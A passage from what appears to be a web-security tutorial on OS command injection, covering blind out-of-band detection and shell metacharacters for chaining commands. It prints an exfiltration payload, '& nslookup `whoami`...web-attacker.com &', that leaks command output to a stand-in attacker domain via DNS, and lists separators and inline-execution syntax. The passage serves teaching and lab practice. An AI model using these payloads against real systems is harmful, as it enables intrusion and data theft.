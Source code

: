 This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

**LAB**

[Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

**LAB**

[Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

### Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

* `&`
* `&&`
* `|`
* `||`

The following command separators work only on Unix-based systems:

* `;`
* Newline (`0x0a` or )

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

* \` injected command\`
* `$(`injected command `)`

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow **in-band retrieval**（带内检索） of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.

### How to prevent OS command injection attacks
